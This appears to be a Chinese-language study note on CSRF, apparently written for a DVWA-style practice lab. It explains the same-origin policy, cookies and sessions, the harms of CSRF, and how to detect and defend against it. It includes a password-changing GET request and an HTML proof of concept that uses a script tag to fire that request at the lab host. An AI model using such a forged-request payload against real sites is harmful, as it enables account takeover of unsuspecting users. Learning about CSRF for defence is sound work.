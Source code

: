 # CSRF漏洞原理

浏览器跨域策略

浏览器同源策略

```
请求的url地址,与浏览器上的url地址处于同域上,也就是域名,端口,协议相同.
```

cookie和session机制

```
会话（Session）跟踪是Web程序中常用的技术，用来跟踪用户的整个会话。Cookie通过在客户端记录信息确定用户身份，Session通过在服务器端记录信息确定用户身份。
Cookie技术是客户端的解决方案，Cookie就是由服务器发给客户端的特殊信息，而这些信息以文本文件的方式存放在客户端，然后客户端每次向服务器发送请求的时候都会带上这些特殊的信息。
Session技术则是服务端的解决方案，它是通过服务器来保持状态的，Session是另一种记录客户状态的机制，不同的是Cookie保存在客户端浏览器中，而Session保存在服务器上。客户端浏览器访问服务器的时候，服务器把客户端信息以某种形式记录在服务器上。这就是Session。客户端浏览器再次访问时只需要从该Session中查找该客户的状态就可以了。
Domain: cookie适用的域名，若不指定，则默认为创建cookie的服务器的域名
Path: cookie适用的path
Expires: 到期时间，若不指定，则浏览器关闭时即删除
Secure:指示是否仅当在HTTPS链接上才传输
HttpOnly: 加以限制，使得cookie不能被JavaScript脚本访问(意味着不能JS不能通过document.cookie的方式访问cookie)

```

# CSRF漏洞危害

所有涉及到数据增删改查的地方都会涉及到csrf漏洞

1.对网站的管理员进行更改密码攻击

2.修改受害者网站的用户账户和数据

3.劫持受害者的账户

4.CSRF结合SQL注入进行脱裤攻击

5.CSRF结合XSS攻击受害者路由器

```
http://daishen.ltd:1111/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change
```

# CSRF检测方法

查看是否有csrf_tokne，没有任何验证，可能存在漏洞

csrf+xss实例

```
<!DOCTYPE html>
<html lang=" zh-CN">
<head>
<meta charset="UTF-8"> 
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
</head>
<body>
<!--讲下面的ip地址改为自己的靶场地址-->
<script src="http://daishen.ltd:1111/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change"
</body>
</html>
```

# CSRF防御方法

1.不要使用get请求，建议所有的涉及到数据的地方都使用post请求。

2.加入csrf_tokne验证或者验证码

3.加入referer判断请求地址是否来源于当前页面

# CSRF绕过方法

![image-20210615161659041](D:\BaiduNetdiskDownload\安全\CSRF跨站请求伪造\CSRF跨站请求伪造.assets\image-20210615161659041.png)

![image-20210615161802996](D:\BaiduNetdiskDownload\安全\CSRF跨站请求伪造\CSRF跨站请求伪造.assets\image-20210615161802996.png)

![image-20210615161855295](D:\BaiduNetdiskDownload\安全\CSRF跨站请求伪造\CSRF跨站请求伪造.assets\image-20210615161855295.png)

![image-20210615161933240](D:\BaiduNetdiskDownload\安全\CSRF跨站请求伪造\CSRF跨站请求伪造.assets\image-20210615161933240.png)

![image-20210615162104224](D:\BaiduNetdiskDownload\安全\CSRF跨站请求伪造\CSRF跨站请求伪造.assets\image-20210615162104224.png)

![image-20210615162212003](D:\BaiduNetdiskDownload\安全\CSRF跨站请求伪造\CSRF跨站请求伪造.assets\image-20210615162212003.png)

